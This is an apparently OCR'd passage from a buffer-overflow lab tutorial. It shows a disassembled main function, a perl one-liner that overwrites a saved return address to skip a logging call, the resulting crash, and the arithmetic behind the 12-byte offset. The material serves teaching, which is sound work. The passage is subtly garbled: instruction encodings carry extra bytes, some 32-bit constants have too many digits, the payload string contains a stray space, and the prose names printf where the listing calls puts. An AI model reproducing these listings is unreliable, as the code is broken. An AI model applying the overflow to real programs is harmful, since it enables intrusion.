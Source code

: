 ```
080483be <main>:
 80483be: 8d 4c 24 04 lea 0x4(%esp),%ecx
 80483c2: 83 e4 f0 and $0xfffffffff0,%esp
 80483c5: ff 71 fc pushl 0xfffffffffc(%ecx)
 80483c8: 55 push %ebp
 80483c9: 89 e5 mov %esp,%ebp
 80483cb: 51 push %ecx
 80483cc: 83 ec 04 sub $0x4,%esp
 80483cf: c7 04 24 bc 84 04 08 movl $0x80484bc,(%esp)
 80483d6: e8 f5 f5 fe ff ff ff call 80482d0 <puts@plt>
 80483db: e8 c0 f0 ff ff ff ff call 80483a0 <doit>
 80483e0: c7 04 24 cd 84 04 08 movl $0x80484cd,(%esp)
 80483e7: e8 e4 fe ff ff ff call 80482d0 <puts@plt>
 80483ec: b8 00 00 00 00 00 00 mov $0x0,%eax
 80483f1: 83 c4 04 add $0x4,%esp
 80483f4: 59 pop %ecx
 80483f5: 5d pop %ebp
 80483f6: 8d 61 fc lea 0xfffffffffc(%ecx),%esp
 80483f9: c3 ret
 80483fa: 90 nop
 80483fb: 90 nop
```

If the second call to `printf()` would inform the administrator about the user's logout (e.g., session closed), then we can try to skip this step and finish without the call to `printf()`.

```bash
user@dojo-labs ~/owasp/buffer_overflow $ perl -e 'print "A "x12 . "\xf9\x83\x04\x08"' | ./example02
```

Output:

```
So... The End...
AAAAAAAAAAAAAAAAAAu*.
Segmentation fault
```

The application ended its execution with a segmentation fault, but the second call to `printf()` was not successful. Some words of explanation:

perl -e 'print "A "x12 ."\xf9\x83\x04\x08"' - will print twelve characters "A" and then four characters, which is actually an address of the instruction we want to execute. why twelve?

```bash
8 // Size of buf (char buf[8])

+ 4 // Four additional bytes for overwriting stack stack frame pointer

----

12
```

### Problem analysis:
